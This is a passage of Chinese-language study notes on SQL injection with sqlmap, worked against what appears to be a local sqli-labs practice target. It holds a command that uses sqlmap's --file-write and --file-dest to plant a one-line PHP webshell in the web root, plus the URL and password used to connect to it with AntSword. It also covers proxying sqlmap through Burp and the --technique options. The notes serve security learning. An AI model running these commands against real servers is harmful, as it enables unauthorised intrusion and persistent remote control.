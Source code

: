 ![image-20240803113103126](../../../../repo/assets/19.SQL注入/image-20240803113103126.png)

### **6、上传一句话木马**

> --file-write
>
> --file-dest

```bash
sqlmap -u "http://192.168.70.14:8088/Less-1/?id=1" --batch --file-write '/root/tools/webshell/xxx.php' --file-dest '/var/www/html/ma.php' 
```

![image-20240803144143433](../../../../repo/assets/19.SQL注入/image-20240803144143433.png)

#### 蚁剑连接

```
http://192.168.70.14:8088/ma.php
xxx
```

![image-20240803144320050](../../../../repo/assets/19.SQL注入/image-20240803144320050.png)

![image-20240803144346544](../../../../repo/assets/19.SQL注入/image-20240803144346544.png)

### sqlmap代理

> --purge	 #清空缓存
>
> --proxy http://127.0.0.1:8080     #代理

```bash
sqlmap -u "http://192.168.70.14:8088/Less-1/?id=1" --batch --dbs --purge --proxy 127.0.0.1:8080
```

![image-20240803150017232](../../../../repo/assets/19.SQL注入/image-20240803150017232.png)

#### burp抓包

![image-20240803150100455](../../../../repo/assets/19.SQL注入/image-20240803150100455.png)

![image-20240803150343338](../../../../repo/assets/19.SQL注入/image-20240803150343338.png)

### 指定插件 --technique

> `BEUSTQ`
>
> 1. `B` - Boolean-based blind SQL injection（**布尔型盲注**）
> 2. `E` - Error-based SQL injection（**报错型注入**）
> 3. `U` - UNION query SQL injection（**联合查询注入**）
> 4. `S` - Stacked queries SQL injection（**堆叠注入**）
> 5. `T` - Time-based blind SQL injection（**基于时间的盲注**）
> 6. `Q` - Inline queries SQL injection（**内联查询注入**）
